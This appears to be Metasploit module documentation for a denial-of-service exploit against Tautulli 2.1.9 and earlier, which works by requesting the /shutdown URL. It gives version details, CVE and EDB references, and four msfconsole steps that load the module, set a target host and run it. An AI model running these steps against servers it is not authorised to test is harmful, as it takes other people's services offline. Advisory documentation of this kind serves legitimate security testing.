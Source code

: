 # Tautulli 2.1.9 - Shutdown Denial of Service

## Overview
Tautulli versions 2.1.9 and prior are vulnerable to denial of service via the /shutdown URL.

## Vulnerable Application :

```
Date: 2018-12-17 
Exploit Author: Ismail Tasdelen
Vendor Homepage: https://tautulli.com/
Software : https://github.com/Tautulli/Tautulli
Product Version: v2.1.9
Platform: Windows 10 (10.0.18362)
Python Version: 2.7.11 (v2.7.11:6d1b6a68f775, Dec 5 2015, 20:40:30) [MSC v.1500 64 bit (AMD64)]
```

### Verification Steps :

```
List the steps needed to make sure this thing works

1. Start ```msfconsole```
2. ```use auxiliary/dos/http/tautulli_shutdown_exec```
3. ```set RHOSTS XXX.XXX.XXX.XXX```
4. ```run```
```

### References :

CVE:2019-19833
EDB:47785
